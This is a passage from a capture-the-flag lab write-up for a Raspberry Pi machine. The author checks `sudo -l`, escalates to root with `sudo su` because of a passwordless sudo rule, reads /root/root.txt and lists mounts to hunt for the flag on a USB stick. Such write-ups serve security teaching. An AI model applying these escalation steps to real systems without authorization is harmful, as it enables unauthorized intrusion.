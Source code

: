 And we successfully logged in. As always, before I run any enumeration tools I like to just do a quick `sudo -l` to see if I am able to execute certain things with sudo permissions.

## Privilege Escalation

```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

And it tells me that I can just run whatever I want with `sudo` with no password. I'm just going to type `sudo su` and get root.

```
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

Usually I would just stop here since I got root, but the `root.txt` isn't actually just laying in plain sight. 

```
root@raspberrypi:/home/pi# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

## Finding the `root.txt` flag.

Within the `root.txt` file we see something about how apparently this user lost the original `root.txt` file and is on their `USB stick`. Since it is talking about a USB stick, I'm going to just use the `mount` command to see what devices are mounted on the host.

```
root@raspberrypi:/home/pi# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102396k,mode=755)
/dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
/dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
/dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
aufs on / type aufs (rw,noatime,si=3585a36e,noxino)
devtmpfs on /dev type devtmpfs (rw,nosuid,size=10240k,nr_inodes=58955,mode=755)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
```